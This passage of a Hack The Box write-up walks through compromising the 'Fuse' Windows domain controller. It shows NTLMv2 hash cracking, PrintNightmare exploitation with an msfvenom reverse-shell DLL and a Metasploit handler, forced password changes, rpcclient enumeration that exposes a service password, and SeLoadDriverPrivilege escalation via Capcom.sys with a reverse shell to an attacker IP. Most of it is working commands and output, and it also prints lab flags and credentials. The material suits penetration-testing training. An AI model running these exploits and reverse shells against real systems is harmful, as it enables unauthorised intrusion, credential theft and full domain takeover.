[SMB] NTLMv2-SSP Username : FABRICORP\FUSE$
[SMB] NTLMv2-SSP Hash     : FUSE$::FABRICORP:ab974f809033d531:C6844C3C73DCA96935032B0BEEA863EF:01010000000000008027183BE5FCDA01067FE855F895B5050000000002000800350046003100310001001E00570049004E002D004E00570031004C004400430051004C0043005900500004003400570049004E002D004E00570031004C004400430051004C004300590050002E0035004600310031002E004C004F00430041004C000300140035004600310031002E004C004F00430041004C000500140035004600310031002E004C004F00430041004C00070008008027183BE5FCDA0106000400020000000800300030000000000000000000000000400000F0F89DDE0C9B14E0F24EB09DDA366C0771A35856561FF67C87AB47099F1E26BC0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0032000000000000000000 


# hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
Session..........: hashcat
Status...........: Exhausted
```

###### PrintNightMare CVE-2021-34527 Python Scanning

While searching, I got this [GitHub Repo](https://github.com/byt3bl33d3r/ItWasAllADream) which allowed me to scan for  CVE-2021-34527. 
A CVE-2021-34527 (a.k.a PrintNightmare) Python Scanner. Allows you to scan entire subnets for the PrintNightmare RCE (not the LPE) and generates a CSV report with the results. Tests exploitability over MS-PAR and MS-RPRN. I spin up the docker on my Kali and run the following command.
```
# docker run -it itwasalladream -u 'bhult' -p 'Fabricorp05' -d 'fabricorp.local' -v 10.10.10.193
[itwasalladream] DEBUG - Target is CIDR network or IP Address
[itwasalladream.rprn_vector] DEBUG - Connecting to ncacn_np:10.10.10.193[\PIPE\spoolss]
[itwasalladream] DEBUG - Started thread poller
[itwasalladream.par_vector] DEBUG - Connecting to ncacn_ip_tcp:10.10.10.193[49680]
[itwasalladream.par_vector] DEBUG - Bind OK
[itwasalladream] DEBUG - pDriverPath found: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_dcef07064d319714\Amd64\UNIDRV.DLL
[itwasalladream] DEBUG - Attempting DLL execution \\172.17.0.2\itwasalladream\bogus.dll
[itwasalladream.par_vector] DEBUG - Calling par.hRpcAsyncAddPrinterDriver()
[itwasalladream.rprn_vector] DEBUG - Bind OK
[itwasalladream] DEBUG - pDriverPath found: C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_dcef07064d319714\Amd64\UNIDRV.DLL
[itwasalladream] DEBUG - Attempting DLL execution \\172.17.0.2\itwasalladream\bogus.dll
[itwasalladream.rprn_vector] DEBUG - Calling rprn.hRpcAddPrinterDriverEx()
[itwasalladream] INFO - completed: 100.00% (1/1)
[itwasalladream] INFO - completed: 100.00% (1/1)
[itwasalladream] DEBUG - RPRN SessionError: code: 0x35 - ERROR_BAD_NETPATH - The network path was not found.
[itwasalladream] INFO - 10.10.10.193 is vulnerable over MS-PAR. Reason: Host attempted to grab DLL from supplied share
[itwasalladream] DEBUG - RPRN SessionError: code: 0x35 - ERROR_BAD_NETPATH - The network path was not found.
[itwasalladream] INFO - 10.10.10.193 is vulnerable over MS-RPRN. Reason: Host attempted to grab DLL from supplied share
[itwasalladream] INFO - Scan complete, generating report. Please wait...
[itwasalladream] INFO - report_2024_09_02_181141.csv generated successfully
```
###### Attempting CVE-2021-34527 - Successful

Now another GitHub Repo for [PrintNightmare (CVE-2021-34527)](https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file) was used to check weather we can take advantage of this vulnerability or not. All three commands ran separately in a different tab.

`Generating DLL`
```
# msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f dll -o PowerMe.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1887 bytes
Final size of dll file: 9216 bytes
Saved as: PowerMe.dll
```

`Changing the Password for User bhult`
```
# impacket-changepasswd 'fabricorp.local/bhult:Fabricorp01@10.10.10.193' -newpass 'Fabricorp08'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\bhult
[*] Connecting to DCE/RPC as fabricorp.local\bhult
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

`Starting the Listener using msfconsole`
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/powershell_reverse_tcp
payload => windows/x64/powershell_reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
```

`Running the PoC code`
```
# python3 CVE-2021-34527.py -u 'bhult' -p 'Fabricorp08' -d 'fabricorp.local' --local-ip 10.10.14.2 -dll PowerMe.dll 10.10.10.193
[*] starting PrintNightmare PoC
[+] Self-hosted payload at \\10.10.14.2\SNHXnD\PowerMe.dll

[*] Attempting target: 10.10.10.193
[*] Connecting to ncacn_np:10.10.10.193[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_dcef07064d319714\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.10.14.2\SNHXnD\PowerMe.dll
[*] Try 1...
[*] Stage0: 0
[*] Try 2...
[*] Stage0: 0
[*] Try 3...
[-] Exploit returned: SMB SessionError: code: 0xc00000b1 - STATUS_PIPE_CLOSING - The specified named pipe is in the closing state.
[*] Closing SMB Server
```

`Got SYSTEM Shell`
```
[*] Powershell session session 1 opened (10.10.14.2:4444 -> 10.10.10.193:65039) at 2024-09-02 14:26:08 -0400

PS C:\Windows\system32> whoami
nt authority\system


PS C:\Users\Administrator\Desktop> type root.txt
be5ebd4c93680200fa4ea5365e5a6dee
PS C:\Users\Administrator\Desktop> cd C:\Users\svc-print\Desktop\             
PS C:\Users\svc-print\Desktop> type user.txt
489e6aad7023c7a046e8252cbe018a6c
PS C:\Users\svc-print\Desktop> 
```

At this point i got both the flag, USER and ROOT but I decided not to provide those flags as this is **NOT AN INTENDED WAY** of capturing the flag. This method was neither discussed anywhere on the HTB Forum and speaking to few people who have solved this box don't know about this way to getting both the flags. Hence I decided to continue my enumeration. 

### Shell with `rpcclient`

One thing I have not tried in the [Netexec - Connecting Host](#Netexec%20-%20Connecting%20Host) Section is to gain a shell using `rpcclient.py` upon changing the password. I tried `winrm`, `ldap` and `smb` but somehow the `rpc` was my weak spot while solving this box. So I am going to try it out here. **~~Spoiler: IT WORKED~~** 

`Changing the password using impacket-changepasswd`
```
# impacket-changepasswd 'fabricorp.local/bhult:Fabricorp01@10.10.10.193' -newpass 'Fabricorp012'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Changing the password of fabricorp.local\bhult
[*] Connecting to DCE/RPC as fabricorp.local\bhult
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
```

`Getting Shell using rpcclient`
```
# rpcclient -U 'bhult%Fabricorp012' 10.10.10.193

rpcclient $> getusername
Account Name: bhult, Authority Name: FABRICORP

rpcclient $> srvinfo
	10.10.10.193   Wk Sv PDC Tim PrQ NT 
	platform_id     :       500
	os version      :       10.0
	server type     :       0x80122b
```

###### Enum using `rpcclient`

Perfect! We got at least something stable that we can try out now. Performing some enumerations using the `rpcclient`.

`Getting Server/Target Info`
```
rpcclient $> srvinfo
	10.10.10.193   Wk Sv PDC Tim PrQ NT 
	platform_id     :       500
	os version      :       10.0
	server type     :       0x80122b
```

`Enumerating Printers - Enum Printers`
```
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
```

`Enumerating Printer Drivers - Enum Print Drivers`
```
rpcclient $> enumdrivers

[Windows NT x86]
Printer Driver Info 1:
        Driver Name: [Microsoft enhanced Point and Print compatibility driver]

Server does not support environment [Windows NT R4000]
Server does not support environment [Windows NT Alpha AXP]
Server does not support environment [Windows NT PowerPC]

[Windows x64]
Printer Driver Info 1:
        Driver Name: [Microsoft XPS Document Writer v4]
Printer Driver Info 1:
        Driver Name: [Microsoft Print To PDF]
Printer Driver Info 1:
        Driver Name: [Microsoft enhanced Point and Print compatibility driver]
Printer Driver Info 1:
        Driver Name: [HP Universal Printing PCL 6]
Printer Driver Info 1:
        Driver Name: [1234]
Server does not support environment [Windows ARM64]
```

`Enumerating Domain Users - Enum Domain User`
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

`Enumerating Domain Groups`
```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[IT_Accounts] rid:[0x644]
```

`Creating Domain User`
```
rpcclient $> createdomuser pawn
result was NT_STATUS_ACCESS_DENIED
```

`Get Domain Password Info`
```
rpcclient $> getusrdompwinfo
Usage: getusrdompwinfo rid

rpcclient $> getusrdompwinfo 0x1f4
    &info: struct samr_PwInfo
        min_password_length      : 0x0007 (7)
        password_properties      : 0x00000001 (1)
               1: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE
```

`Changing User Password`
```
rpcclient $> chgpasswd
Usage: chgpasswd username oldpass newpass
rpcclient $> chgpasswd2
Usage: chgpasswd2 username oldpass newpass
```

`Enumerate Privileges`
```
pcclient $> enumprivs
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
```

`Enumerating SID and Convert SID to Names`
```
rpcclient $> lsaenumsid
found 18 SIDs  [TRIMMED]

S-1-5-9
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
rpcclient $> lookupsids S-1-5-9
S-1-5-9 NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERS (5)
rpcclient $> lookupsids S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415 IIS APPPOOL\DefaultAppPool (5)
```

`Add Rights to an account`
```
rpcclient $> lookupsids S-1-5-32-545
S-1-5-32-545 BUILTIN\Users (4)

rpcclient $> lsaaddacctrights
Usage: lsaaddacctrights SID [rights...]

rpcclient $> lsaaddacctrights S-1-5-32-545 DcSync
result was NT_STATUS_ACCESS_DENIED
```

`Adding Share using rpclicent`
```
rpcclient $> netshareadd
Usage: netshareadd path share_name [max_users] [comment]
rpcclient $> netshareadd pawn 3
result was WERR_ACCESS_DENIED
```

### Shell as svc-print

```
# evil-winrm -i 10.10.10.193 -u 'svc-print' -p '$fab@s3Rv1ce$1'

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents> cd ..
*Evil-WinRM* PS C:\Users\svc-print> cd Desktop
*Evil-WinRM* PS C:\Users\svc-print\Desktop> type user.txt
489e6aad7023c7a046e8252cbe018a6c
*Evil-WinRM* PS C:\Users\svc-print\Desktop> 
```

Get your user flag.


### Privilege Escalation 

###### winPEASany.exe Findings

```
################ User Environment Variables
# Check for some passwords or keys in the env variables 
    COMPUTERNAME: FUSE
    PSModulePath: C:\Users\svc-print\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;        C:\Windows\system32\WindowsPowerShell\v1.0\Modules

################ Current Token privileges
# Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#token-manipulation
    SeMachineAccountPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeLoadDriverPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeShutdownPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED

################ Checking write permissions in PATH folders (DLL Hijacking)
# Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\

```

Looks like other than just a privileges there's nothing interesting we found during winPEASany.exe. Reading the Box Information, we are going to take advantage of `SeLoadDriver Privilege`.

###### SeLoadDriverPrivilege Escalation 

The SeLoadDriverPrivilege speifies the users who are allowed to dynamically load device drivers. The activation of this policy in the context of non-privileged users implies a significant risk due to the possibility of executing code in kernel space.

`Generating Reverse Shell`
```
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4242 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: revshell.exe
```

From the GitHub Repo [SeLoadDriverPrivilege Privilege Escalation](https://github.com/JoshMorrison99/SeLoadDriverPrivilege) Get all the things and get it on your target along with `revshell.exe` in a writable/executable folder.

```
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.2\share\LoadDriver.exe .
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.2\share\ExploitCapcom.exe .
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.2\share\Capcom.sys .
*Evil-WinRM* PS C:\programdata> copy \\10.10.14.2\share\revshell.exe .
```

`Loading the Driver`
```
*Evil-WinRM* PS C:\programdata> .\LoadDriver.exe System\CurrentControlSet\MyService C:\programdata\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

Now start the NetCat Listener

```
*Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe C:\programdata\revshell.exe
[+] Path is: C:\programdata\revshell.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000002AB47B50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Looking at the NetCat Listener
```
# nc -lvnp 4242                                             
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.193] 50339
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop>type root.txt
type root.txt
5ec7d03b81662b4cd570ef8f5836975e
```

Get your root flag.